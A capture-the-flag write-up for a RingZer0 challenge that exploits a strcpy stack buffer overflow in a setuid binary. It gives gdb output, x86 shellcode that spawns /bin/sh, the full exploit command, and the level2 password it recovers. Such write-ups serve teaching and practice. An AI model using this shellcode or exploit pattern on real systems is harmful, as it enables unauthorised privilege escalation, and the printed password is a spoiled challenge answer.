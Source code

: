 Challenge From: `https://ringzer0ctf.com/challenges/80`

We have an executable on a linux machine. Looking at it's source code (level1.c), it has a 1024 bytes long buffer. It takes input from the user and stores in the buffer.  
This uses strcpy and thus does not check the length of the string it copies and it vulnerable to a Buffer Overflow via Reverse Engineering it.  
Our goal it to get a shell as the user "***level2***".   
Let's enter some input into the binary and see how it responds.

    $ ./level1 $(python -c "print('A'*1036)")
    Segmentation fault

There is Segmentation fault when entering 1036 chars.  
Let's use ***gdb*** to debug the binary and look at the memory addresses.

    (gdb) run $(python -c "print('A'*1036)")
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /levels/level1 $(python -c "print('A'*1036)")

    Program received signal SIGSEGV, Segmentation fault.
    0xb7dfde00 in __libc_start_main (main=0x804841c <main>, argc=2, argv=0xbffff8b4, 
        init=0x8048460 <__libc_csu_init>, fini=0x8048450 <__libc_csu_fini>, 
        rtld_fini=0xb7fe5230 <_dl_fini>, stack_end=0xbffff8ac) at ../csu/libc-start.c:295
    295     ../csu/libc-start.c: No such file or directory.

<!-- 0xb7dfde00 - The value in the stack pointer-->

Looking at the stack pointer, it is at ***0xbffff810***.

    (gdb) p $sp
    $1 = (void *) 0xbffff810

Our plan it to insert an "malicious" code in to the buffer, and at the end of it will be a return address that points to the start of the malicious code. The problem is we don't know exactly where the memory address of the code will begin, because things move around and it is not always the same address.  
What we can do is use the ***NOP*** (No Operation) character ***/x90***. Whenever the program goes over this character, it will do nothing until reaching a different character, this is called a NOP slide.  

Let's find a memory address that points to the middle of the NOP slide.

    0xbffff9c4:     0x00000000      0x92000000      0x532d154b      0xc2821d13
    0xbffff9d4:     0x6d34eab8      0x69018f91      0x00363836      0x00000000
    0xbffff9e4:     0x6c2f0000      0x6c657665      0x656c2f73      0x316c6576
    0xbffff9f4:     0x41414100      0x41414141      0x41414141      0x41414141
    0xbffffa04:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa14:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa24:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa34:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa44:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa54:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa64:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa74:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa84:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffa94:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffaa4:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffab4:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffac4:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffad4:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffae4:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffaf4:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb04:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb14:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb24:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb34:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb44:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb54:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb64:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb74:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb84:     0x41414141      0x41414141      0x41414141      0x41414141

***0xbffffb54*** seems good.  
Now all we need is the code itself and to build the exploit.  
I tried other shell codes but for some reason only this one worked.

    \x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68

The program crashes at 1036 bytes and the length of the shellcode is 46 bytes, that means the NOP slide length should be 990 bytes long. Only one more thing before we can craft it, the return address should be entered in reverse order of the bytes, because this machine is running little endian, so our exploit would look like this:

    NOP slide - \x90'*990 + 
    Payload - '\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68' + 
    Address in middle of NOP slide - '\x54\xfb\xff\xbf'

Let's run it and see if it works.

    $ ./level1 $(python -c "print('\x90'*990 + '\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68' + '\x54\xfb\xff\xbf')")
    $ id -a
    uid=1001(level2) gid=1001(level1) groups=1001(level1),1000(challenger)

We successfully have access to the user ***"level2"***, let's get his password from his home directory.

    $ cd /home/level2
    $ cat .pass
    TJyK9lJwZrgqc8nIIF6o
